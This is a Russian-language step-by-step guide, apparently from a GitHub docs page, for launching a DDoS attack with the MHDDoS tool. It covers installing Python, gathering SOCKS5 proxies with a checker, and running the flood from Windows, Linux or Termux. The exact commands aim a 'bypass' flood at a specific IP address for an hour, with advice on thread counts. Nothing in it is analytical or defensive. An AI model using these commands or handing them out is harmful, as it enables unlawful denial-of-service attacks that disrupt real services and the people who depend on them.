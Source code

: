 <h1 align="center">ддос на пк 2</h1>
February 24, 2022

Это ддос с помощью питона. Можно использовать с любой ос(и андроид также, если есть термукс)

Скачиваем питон 3 https://www.python.org/downloads/


Ддосер: https://github.com/MHProDev/MHDDoS 

Чекер прокси: https://github.com/monosans/proxyscrape-checker

![https://github.com/BionecX/mhddos_p_docs/blob/main/images/ddos-na-pk-2-02-24.md_1.png](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ddos-na-pk-2-02-24.md_1.png)

С гита качаем так: нажимаем на кнопку `Code`, и `Download ZIP`

Устанавливаем питон, распаковываем оба архива.
## Для виндовс:

  Добавляем в path путь к питону и пип https://okdk.ru/kak-dobavit-python-v-peremennuju-windows-path/

  Заходим в папку с чекером, нажимаем пкм+shift в пустом месте и нажимаем "Открыть в командной строке" или в PowerShell, если у вас будет такой пункт. 

  Вписываем: 

  `python -m pip install -r requirements.txt`

  Затем:

  `python main.py`

  После окончания проверки прокси заходим и папку proxies и копируем/перемещаем файл socks5.txt в папку с ддосером

  Открываем командную строку или повер шел так же как и в папке с чекером

  и вписываем:

  `python -m pip install -r requirements.txt`

  Теперь :

  `python start.py bypass 172.67.185.206 5 количество_потоков socks5.txt 63 время`

  ___Количество потоков___ зависит от инета и мощности проецсора. Пробуйте от 5 до того количества, которое можете потянуть.

  ___Время___ – это время (в секундах) в течение которого будет атака. Обычно ставим 3600 вместо этого слова.

  Например:

  `python start.py bypass 172.67.185.206  5 5 socks5.txt 63 3600`
<br/>
<br/>
<br/>
## Для линукс\андроид(termux):

  В линуксе(в термуксе без sudo): 

  `sudo apt install python3 python3-pip`

  В папке с чекером, и в папке с ддосером:

  `pip3 install -r requirements.txt`

  В папке с чекером:

  `python3 main.py`

  И копируем/перемещаем из папки `proxies` файл `socks5.txt` в папку с ддосером.

  В папке с ддосером:

  `python3 start.py bypass 172.67.185.206 5 количество_потоков socks5.txt 63 длина`

  ___Количество потоков___ зависит от инета и мощности проецсора. Пробуйте от 5 до того количества, которое можете потянуть.

  ___Длина___ (я сам хз за что отвечает поэтому ставлю 1000 обычно)























